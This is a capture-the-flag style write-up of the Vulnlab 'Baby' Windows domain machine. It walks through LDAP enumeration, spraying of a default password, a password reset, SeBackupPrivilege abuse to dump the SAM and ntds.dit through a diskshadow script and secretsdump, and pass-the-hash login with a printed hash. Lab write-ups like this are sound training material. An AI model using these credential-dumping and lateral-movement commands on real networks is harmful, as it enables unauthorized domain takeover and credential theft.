

# Baby

This is my write-up for the Baby machine from Vulnlab.

# Enumeration

We started executing a full port scan on the host.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -v -sS -Pn -p- 10.10.98.130 --min-rate=300 --max-rate=500
```



Now, we execute a port scan only on the open ports that we have found before.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -vv -sV -sC -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5357,5985,9389 -oA nmap/baby 10.10.98.130
```


We found the machine name, the domain, and the domain controller name, so we write it into our local hosts file.


Now, we execute the `netexec` tool to enumerate the SMB service. We could verify that we can log into the SMB as anonymous.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl --shares
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u "" -p "" --shares
```


But we couldn’t list any shares anonymously. So we try enumerating users with `kerbrute`, also without success. Finally, we enumerate the LDAP service using the `ldapsearch` tool. We could enumerate the accounts that were created on the host, and the default password when a new user is created.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ ldapsearch -H ldap://10.10.98.130 -x -b "DC=baby,DC=vl"
```


Dev Users


IT Users

The Teresa.Bell user has a description field saying “Set the initial password to BabyStart123!”.


We save those all users found on a list of users, after filtering to generate a clean output with only the correct usernames.

# Exploitation

First, we check if the `Teresa.Bell` has the initial password like in her description field, but we were not successful. So we execute the password spraying technique to verify if any other user has the initial password set.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u users.txt -p 'BabyStart123!' --continue-on-success
```


We could verify the `Caroline.Robinson` user did not change her password. Using the `smbpasswd` tool, we can change the initial password and redefine to one of our choice.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─[☢] $ smbpasswd -r baby.vl -U caroline.robinson
```


Now, we check if the password really has been changed.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u caroline.robinson -p 'hacker@123'
```


We were able to change the `caroline.robinson`’s password. Now we can log into WinRM service as this user.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u caroline.robinson -p 'hacker@123'
```


## Privilege Escalation

Checking the privileges for `caroline.robinson` account, we verify she has the `SeBackupPrivilege` enabled.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami /priv
```


With this privilege, we can save the SAM database and de SYSTEM file to retrieve the NTLM hashes for the users.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\sam sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\system system
```


Now we download these files to our local machine.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download system
```


We were able to retrieve the NTLM hashes for the users locally using the secretsdump impacket tool.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system LOCAL
```


We could not log into WinRM using the Administrator’s hash retrieved before, because this hash is for the local Administrator user, not the Administrator DC user. So we have to retrieve the administrator DC user that is saved in the ntds.dit file. First, we try to create a ***shadow copy*** of the `C:` drive using the `vssadmin` tool, but we do not have permissions to execute it. We tried some other techniques without success.

Searching on the Internet, we could found a technique to retrieve the ntds.dit file through diskshadow:

[Dumping Domain Controller Hashes Locally and Remotely | Red Team Notes](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

First, we create a diskshadow script called `script.txt`  with the content and upload it to the host:

```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

```bash
# uploading the file
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> upload /home/th3g3ntl3m4n/vulnlab/baby/www/script.txt
```

Now, we execute the diskshadow tool to execute our script.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> diskshadow /s script.txt
```


Now we copied the `ntds.dit` file from the new drive, (`E:`), created above.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> robocopy /b E:\Windows\ntds . ntds.dit
```


Finally, we download the `ntds.dit` file to our local machine and execute the secretsdump tool to retrieve the Administrator’s DC hash.


```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL
```


We now just log into the WinRM service as Administrator using the ***Pass-The-Hash (PTH)*** technique.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
```

